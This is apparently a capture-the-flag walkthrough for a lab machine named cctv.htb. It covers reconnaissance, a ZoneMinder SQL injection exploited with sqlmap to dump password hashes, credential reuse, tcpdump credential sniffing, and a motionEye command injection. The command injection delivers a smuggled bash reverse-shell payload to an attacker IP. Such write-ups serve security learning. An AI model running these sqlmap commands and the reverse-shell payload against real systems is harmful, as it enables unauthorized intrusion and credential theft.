# Walkthrough 


## Information Gathering 


The target ip attempts to resolve to `cctv.htb`:



Two emails are found in the pagesource:
info@securevision.com
info@cctv.htb

### Nmap Scans: 

All Port Scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


`-sC -sV` scan: 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_  256 e3:9b:38:08:9a:d7:e9:d1:94:11:ff:50:80:bc:f2:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


`--script vuln` scan: 
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=cctv.htb
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://cctv.htb:80/zm/cache/skins_classic_js_bootstrap-table-1.22.3_extensions_toolbar_bootstrap-table-toolbar.min-base-1752558138.js
|     Form id: '.concat(n.idform,'
|_    Form action: ').concat(n.actionForm,'
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
```


### Directory Enumeration: 

#### Vhost Enumeration:

`gobuster vhost -u http://cctv.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain --exclude-status 302`

`gobuster vhost -u http://cctv.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain --exclude-status 302`

**No Virtual Hosts Discovered**

#### Dir Enumeration: 

`└─$ gobuster dir -u http://cctv.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

```
zm                   (Status: 301) [Size: 301] [--> http://cctv.htb/zm/]
javascript           (Status: 301) [Size: 309] [--> http://cctv.htb/javascript/]
Progress: 114442 / 114442 (100.00%)
```





### ZoneMinder 

ZoneMinder uses default credentials. They are `admin:admin` 

The default credentials take us to the ZoneMinder Dashboard. **Version 1.37.63**




---
## Vulnerability Assessment: 

### ZoneMinder 

#### CVE-2024-51482 

SQL Injection vulnerability that allows an attacker to inject malicious SQL commands and manipulate database queries. 

Firstly, the admin page reveals that the ZoneMinder service has three users:

- admin
- mark
- superadmin

The exploit **CVE-2024-51482.py** was used against the target but was unsuccessful: 




This version of ZoneMinder *is* vulnerable to SQLi. 
The vulnerable endpoint can be triggered via:

```
http://target/zm/index.php?view=request&request=event&action=removetag&tid=[INJECTION_POINT]
```

Moving on to SQLMAP that can be used in lieu of the exploit seen above.

---

## Exploitation:

### SQLMAP: 

SQLMAP was used to enumerate the target database by taking advantage of the specific bug in ZoneMinder that makes injections possible:
`http://TARGET.com/zm/index.php?view=request&request=event&action=removetag&tid=1`


First sqlmap scan: 
```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=t58tdps8t3d11hmohbqcva2v7a" --dbms=mysql --dbs
```

3 databases were retrieved:




Next command:
```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=t58tdps8t3d11hmohbqcva2v7a" --dbms=mysql -D zm --tables
```





```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=qku4qg132k5k729k4huuvos0nq" --dbms=mysql -D zm -T Users --columns
```





```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=dbvceb7bj75dpdnirlqll91lhs" --dbms=mysql -D zm -T Users -C Username,Password --dump
```



The password to mark was successfully cracked with John the Ripper:
`opensesame` 

This password was used to gain access to the ZoneMinder application, but it was also reused across accounts and therefore `ssh` access was gained with the reused credentials:
`mark:opensesame`


---
##### Resources:

https://github.com/BridgerAlderson/CVE-2024-51482

https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3


---


## Privilege Escalation: 

Linpeas.sh was downloaded onto the target machine and revealed that tcpdump was available to the user `mark`:

**tcpdump:**


*How is tcpdump used in privilege escalation?*

If an unprivileged user can run `tcpdump` with sufficient permissions (for example, via Linux capabilities like `CAP_NET_RAW` and `CAP_NET_ADMIN`), they may be able to capture network traffic containing:

- Plaintext usernames and passwords
- Session cookies
- API tokens
- Authentication headers

Many internal services trust the local network. As a result, if an attacker can capture communication between:

- Web applications and databases
- Monitoring services
- Backup systems
- Docker containers
- Local APIs

Then they may be able to sniff out credentials passing through 'trusted' channels. The screenshot below demonstrates:



```
X1l9fx1ZjS7RZb
```

With credentials found in the tcpdump output, an attacker can pivot to the `sa_mark` user:




### Privilege Escalation: sa_mark > root

First step is to read the `SecureVision Staff Announcement.pdf` file which was downloaded onto the attacking machine. It reports that SecureVision is migrating from an old platform to a new one (ZoneMinder) but that staff logins will remain the same. With this also comes a website redesign. 

Migrations take time and mistakes can be made. In this case, the target machine was still hosting their previous platform (motionEye).




Let's see what can be gleamed from this webpage. Set up for a tunnel:

```
ssh sa_mark@10.129.244.156 -L 8765:localhost:8765
```

Then navigate to http://127.0.0.1:8765/ via the attacking machine to find: 




As per the pdf, credentials were kept the same from this previous service. To bypass the login page, login with:

```
admin:X1l9fx1ZjS7RZb
```

### motionEye: 

motionEye is a free, open-source, web-based frontend designed for the "motion" video surveillance daemon. It transforms your hardware—such as a Raspberry Pi, old computer, or server—into a fully functional, self-hosted Network Video Recorder (NVR). It provides a clean, user-friendly interface to manage multiple cameras, view live network streams, and configure motion-triggered recording without ongoing subscription fees.

Gobuster was ran against http://127.0.0.1:8765 with the common.txt wordlist and found a directory named `/version`:

```
hostname = "cctv"  
version = "0.43.1b4"  
motion_version = "4.7.1"  
os_version = "Ubuntu 24.04"
```

Research shows that this is vulnerable to RCE.

#### CVE-2025-60787 - RCE 

**CVE-2025-60787 is a critical Remote Code Execution (RCE) vulnerability** in the motionEye video surveillance interface, specifically affecting **versions 0.43.1b4 and earlier**. It stems from improper input validation where user-controlled configuration parameters are written directly into configuration files. When the underlying Motion process or service restarts, these unsanitized values are parsed and executed as system commands.

The link below contains a PoC on how to repeat this exploit:
https://github.com/motioneye-project/motioneye/security/advisories/GHSA-j945-qm58-4gjx 

Please note that for this particular target, only steps 7, 8, 10 and 11 need to be carried out in order to exploit the existing Network Camera and compromise the machine. 

Firstly, override the vulnerable function (`configUiValid`) to always return true: 
```
configUiValid = function() { return true; }; into the Console 
```

In the `Still Images` section, change `Capture mode` to **Interval Snapshots** with a **10 second interval.**

Finally, start a listener on the attacking machine and apply the payload below into `Image File Name` of the `Still Images` section:
```
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.10.15.186/1234 0>&1\"')").%Y-%m-%d-%H-%M-%S
```

After applying, a reverse shell will be received, allowing total compromise of the target system:




---

# Summary: 

This penetration test identified a complete compromise of the target system by exploiting multiple security weaknesses across both the web application and the underlying infrastructure. Initial enumeration revealed a publicly accessible ZoneMinder instance running with default `admin:admin` credentials, allowing authenticated access to the surveillance management interface. Although the public proof-of-concept exploit for CVE-2024-51482 was unsuccessful, a time-based blind SQL injection vulnerability was successfully exploited using SQLMap to enumerate the backend MySQL database and dump user password hashes. After cracking the password hash for the `mark` account with John the Ripper, it was discovered that the credentials had been reused for SSH access, providing an initial shell on the target host. This demonstrated the significant impact of insecure default configurations, SQL injection vulnerabilities, and poor password management practices.

Following initial access, privilege escalation was achieved through a combination of credential exposure and legacy system misconfiguration. The ability to capture network traffic with `tcpdump` exposed plaintext credentials belonging to the `sa_mark` user, allowing lateral movement to a more privileged account. Further enumeration uncovered an internal motionEye instance that remained accessible following an incomplete migration from the legacy CCTV platform. Because credentials had been reused across both systems, authentication to the legacy service was possible, where a vulnerable version of motionEye (0.43.1b4) was identified. Exploitation of CVE-2025-60787 enabled remote code execution, resulting in a reverse shell running as the root user and complete compromise of the host. Overall, the assessment highlighted several critical security issues, including default credentials, SQL injection, password reuse, plaintext credential exposure, inadequate service decommissioning, and the continued operation of vulnerable legacy software, all of which contributed to full system compromise.